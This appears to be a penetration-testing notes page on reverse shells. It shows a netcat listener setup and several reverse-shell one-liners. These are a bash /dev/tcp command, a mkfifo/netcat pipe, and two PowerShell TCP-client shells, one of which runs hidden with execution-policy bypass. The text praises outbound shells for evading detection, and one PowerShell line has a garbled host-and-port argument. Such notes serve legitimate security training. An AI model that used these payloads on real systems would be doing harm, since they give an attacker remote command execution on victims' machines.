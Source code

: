 With a **reverse shell**, the attack box will have a listener running, and the target will need to initiate the connection. We will often use this kind of shell as we come across vulnerable systems because it is likely that an admin will overlook outbound connections, giving us a better chance of going undetected.

## Netcat connection

First we need to start a **netcat** in our machine:

```console
zero@pio$ nc -lvnp 9000
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-l`   | Listen mode   |
| `-v`   | Verbose mode   |
| `-n`   | Disable DNS resolution, speed up   |
| `-p`   | Port number   |

Then we execute the reverse shell command in the objective machine.

## Reverse shell command

Depends on the machine the command may be different. In [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) we can found many, as well as in *revshells*.

Some Linux examples can be seen as:
```bash
bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'
```
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

And Windows:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Or:
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>'PORT>,);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
